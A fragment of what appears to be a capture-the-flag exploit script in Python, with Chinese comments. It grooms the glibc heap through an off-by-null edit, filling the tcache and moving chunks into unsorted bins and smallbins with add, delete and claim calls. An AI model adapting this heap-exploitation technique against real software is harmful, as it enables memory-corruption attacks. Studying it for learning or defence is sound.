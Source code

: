```
    # debug([0x1629])

    edit(53,pay)# off - by - null  这里做个对比吧
    add(0x88)#54     -0x2e0位置
    add(0x88)#55
    add(0xd8)#56
    pause()#0x55916a587df0
    #----------------------------------------------------------------
    #------tcache
    for i in range(7,14):#0x98
        delete(i)
    for i in range(0,7):#0x88
        delete(i)
    for i in range(42,49):#0xe8
        delete(i)        


    #------tcache





    delete(50)#0x98
    delete(54)
    delete(59)#0xe8
    delete(53)


    raw_input('c1')


    #---------------add back
    claim(0x88)
    claim(0x98)
    claim(0xe8)
    #---------------add back


    add(0xd8)# 0x32  将几个unsortedbin 分别放入对应的smallbin 选择0xe8的进行分配  原来的59号
    add(0xb8)# 0x35  0x131的smallbin切分



    #---将55号放入unsortedbin
    for i in range(0,7):#0x88
        delete(i)
    delete(55)
    claim(0x88)
    #---将55号放入unsortedbin , 扩大原来的53 54 unsortedbin




    add(0xb8)#0x36
    add(0x98)#0x37   这个是smallbin  这个是原来的50
    add(0x38)#0x3b   0x36+0x3b正好清空unsortedbin

    pause()




```